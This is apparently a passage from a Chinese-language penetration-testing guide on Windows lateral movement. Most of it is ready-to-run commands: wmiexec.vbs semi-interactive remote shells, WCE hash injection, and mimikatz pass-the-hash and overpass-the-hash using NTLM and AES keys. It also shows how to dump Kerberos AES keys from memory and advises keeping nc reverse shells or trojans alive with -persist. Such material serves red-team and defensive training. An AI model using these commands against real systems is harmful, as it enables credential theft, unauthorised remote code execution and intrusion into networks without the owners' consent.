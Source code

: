 
上面是提供账号密码的情况，如果有时候我们抓取到的是hash，破解不了时可以利用WCE的hash注入【传递】，然后再执行WMIEXEC（不提供账号密码）就可以了。 

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1 username password【半交互shell】
cscript.exe  wmiexec.vbs /cmd 192.168.1.1 username password  "command"【执行单条命令】
```
wce注入hash后进行命令执行

```
wce -s [hash] 
cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1
```

运行时间长的命令时，如ping,systeminfo之类的，记得加上-wait5000或者更久的时间选项。
运行nc反弹或者木马等不需要输出结果、同时需要一直运行的程序时，一定要加上-persist选项，不然你就只能去taskkill远程结束进程了。

使用NTLM hash远程连接：

```
以管理员权限运行：
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /ntlm:efa85b42d77dc2fdbdbdb767792b0a11"
dir \\192.168.40.132\c$
```

注:
虽然"sekurlsa::pth"在mimikatz中被称之为"Pass The Hash",但是其已经超越了以前的"Pass The Hash"，部分人将其命名为"Overpass-the-hash"，也就是"Pass-the-key"

使用aes key远程连接（kb2871997 Installed）：
获取aes key 的mimikatz命令为：

```
privilege::debug
sekurlsa::ekeys
```

无法复制时，开启日志记录功能后会把输出回显的内容保存在同级目录下的mimikatz.log中：

```
mimikatz log privilege::debug sekurlsa::ekeys
```

以管理员权限运行：

```
privilege::debug
sekurlsa::pth /user:a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 
privilege::debug
sekurlsa::pth /user:a /domain:test.local /aes128:8cce86e4b0630f07fcf5f2110068c421" 

dir \\WIN-8VVLRPIAJB0\c$
```

注意：

这里dir要使用主机名 而不是ip，不然会提示用户名或密码错误。

